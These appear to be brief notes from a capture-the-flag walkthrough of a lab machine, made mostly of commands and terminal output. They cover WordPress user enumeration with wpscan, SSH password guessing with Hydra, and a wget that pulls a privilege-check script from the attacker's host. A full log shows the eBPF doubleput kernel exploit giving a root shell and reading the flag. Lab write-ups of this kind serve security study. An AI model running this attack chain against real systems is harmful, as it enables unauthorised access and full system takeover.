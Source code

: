 Ribit hole:
User-agent: *
Disallow: /admin112233/
Disallow: /blogblog/

Cut passwd to users.txt:
```shell
cat passwd | grep 'bin/bash' | cut -d: -f1
```
Provided:
wpscan --url https://192.168.139.144:12380/blogblog -e u[1-100] -e ap -e at

Actual:
```shell
wpscan --url https://192.168.139.144:12380/blogblog -e u[1-100] --disable-tls-checks

wpscan --url https://192.168.139.144:12380/blogblog --username elly --disable-tls-checks
```
Hydra use try null/username/reverse as password guessing:
```shell
hydra -L users.txt -e nsr 192.168.139.144 ssh

wget http://192.168.139.129/linuxprivchecker.py

lsb_release -a
```  

```shell
SHayslett@red:~/39772/ebpf_mapfd_doubleput_exploit$ ./compile.sh 
doubleput.c: In function ‘make_setuid’:
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
SHayslett@red:~/39772/ebpf_mapfd_doubleput_exploit$ ./doubleput 
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@red:~/39772/ebpf_mapfd_doubleput_exploit# id
uid=0(root) gid=0(root) groups=0(root),1005(SHayslett)
root@red:~/39772/ebpf_mapfd_doubleput_exploit# whoami
root
root@red:~/39772/ebpf_mapfd_doubleput_exploit# cd /root
root@red:/root# ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
root@red:/root# cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
